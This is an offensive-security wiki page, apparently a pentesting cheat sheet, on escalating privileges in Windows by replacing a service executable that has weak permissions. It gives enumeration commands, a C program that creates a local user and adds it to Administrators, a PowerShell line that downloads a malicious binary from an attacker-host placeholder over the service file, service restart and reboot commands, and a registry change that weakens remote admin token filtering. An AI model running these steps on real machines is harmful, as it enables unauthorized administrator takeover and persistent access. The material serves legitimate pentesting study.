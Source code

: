 # 🛠️ Weak service permissions

## Theory

File permissions in Windows control who can access, modify, or execute files on the system. If these permissions are misconfigured, unauthorized users could potentially alter or replace critical files, leading to security vulnerabilities such as unauthorized access.

Here's a quick summary of Windows file permissions based on the provided table:

    F (Full access): Grants complete control over the file, including modifying and deleting it.
    M (Modify access): Allows editing and deleting the file, but not changing permissions.
    RX (Read and execute access): Permits viewing the file and executing it if it's an executable.
    R (Read-only access): Only allows viewing the file without making changes.
    W (Write-only access): Permits writing to the file but not reading or executing it.

## Pratice

### Insecure permissions on service executable 

This type of abuse can occur when the binary of a Windows service is misconfigured, meaning that the permissions for this binary allow, for example, a local user without special privileges to modify it or even replace it with a malicious one, the Attacker can obtain the privileges of the service account in general a high privileges account.

For the enumeration can be done with Powershell, first using native Powershell commands (Living off the Land) But also with [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). The main difference between the two is on the result PowerUp is able to tell you if a service is vulnerable or not while PowerShell just lists the Binary Services. In this example the **aniService** service is misconfigured and vulnerable to this attack.

```powershell
# USING POWERSHELL
> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# USING POWERUP
> Invoke-AllChecks
[*] Checking service executable and argument permissions...


ServiceName    : aniService
Path           : C:\Program Files\AniService\ani.exe
ModifiableFile : C:\Program Files\AniService\ani.exe
StartName      : LocalSystem
AbuseFunction  : Install-ServiceBinary -ServiceName 'aniService'
```

If you have identified your vulnerable binary with a tool like PowerUp or even Winpeas, you can check the permissions of this binary with **icacls.exe**. The most interesting permissions are (F) and (M) if they are related to a group such as `Everyone:` or a local user for exemple. 
```powershell
> icacls "C:\Program Files\AniService\ani.exe"
C:\Program Files\AniService\ani.exe
                                    AUTORITE NT\System:(F)
                                    BUILTIN\Administrators:(F)
                                    Everyone:(F)
                                    BUILTIN\Users:(RX)
```

In the current practical case the executable permission (F) on the group "Everyone", but if the permission was set in (M) it would also have been possible to abuse. Thanks to this bad configuration the attacker can simply replace the binary with another malicious one. it is possible to use PowerUp for automated task.
```powershell
> Install-ServiceBinary -ServiceName 'aniService' -User vador -P "D4rkIsD@rk"
```

Once the command is launched it will just need to **restart the service** to be sure that the abuse is well worked. 

The second method consists of creating yourself your malicious binary that can have advantages including the bypass of the AV detection. Here is a simple C code that will execute a system windows command (You can of course replace the system command with another.).
```C
#include <stdlib.h>
int main ()
{
int i;
    i = system("net user vador D4rkIsD@rk /add && timeout /t 2 && net localgroup Administrators vador /add");
return 0;
}

```

To compile Windows Executable it is possible to use `i686-w64-mingw32-gcc`.
```bash
> i686-w64-mingw32-gcc <CODE.c> -lws2_32 -o <FILE.exe>
```

Thanks to the wrong permission the attacker can replace the old executable by renominating it for example. Then it will be able to add the new malicious file with a name identical to the original one.
```powershell
> move ani.exe ani.exe.bak

# DOWNLOAD THE MALICIOUS EXECUTABLE
> iwr http://<ATTACKER_IP>/malicious.exe -Outfile "C:\Program Files\AniService\ani.exe"
```
Once the binary is replaced you have to restart the service, to check if this is possible a tool of the suite sysinternal can help, [accesschk.exe](https://download.sysinternals.com/files/AccessChk.zip) is a tool that allows adminsys to quickly check what type of access users or specific groups have to resources, including files, directories, registry keys, global objects and Windows services.
```powershell
> ./accesschk64.exe /accepteula -ucqv <SERVICE_NAME>

Copyright (C) 2006-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

aniService
  Medium Mandatory Level (Default) [No-Write-Up]
  R  DESKTOP-5VHCKF3\admin
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
```
The permissions that manage the start are **SERVICE_START** and **SERVICE_STOP** if they are present on your user or on a group that controls you then you can restart the service.
```powershell
# STOP SERVICE
> net stop <SERVICE_NAME>

# START SERVICE
> net start <SERVICE_NAME>
```
There is an alternative if ever the Startup permissions are not present, with the sc.exe tool you can look at the boot method used by the service. If it is on `AUTO_START`, this means that the service starts at windows boot.
```powershell
> sc.exe qc <SERVICE_NAME>
[SC] QueryServiceConfig réussite(s)

SERVICE_NAME: aniService
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\AniService\ani.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Anakin Skywalker Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```
There is a Windows privilege called **SeShutdownPrivilege**, which allows you to reboot a Windows system. With this privilege, you can indirectly restart the service without having the direct permissions to restart it.
```powershell
> shutdown /r /t 0
```
Once the service is rebooted your payload should be run.

A small nuance when adding a local user: there is a registry key named **LocalAccountTokenFilterPolicy** that, when enabled, prevents users in the local administrators groupexcept for those with a RID of 500 (the built-in Administrator account) from obtaining full administrator rights during remote connections, such as to administrative shares like C$. To disable this restriction. The value of the key needs to be changed.
```powershell
> reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" /f /v LocalAccountTokenFilterPolicy /t Reg_DWORD /d 1
```

#### Ressources 
[https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy](https://kb.cybertecsecurity.com/knowledge/localaccounttokenfilterpolicy)

[https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/](https://offsec.blog/hidden-danger-how-to-identify-and-mitigate-insecure-windows-services/)
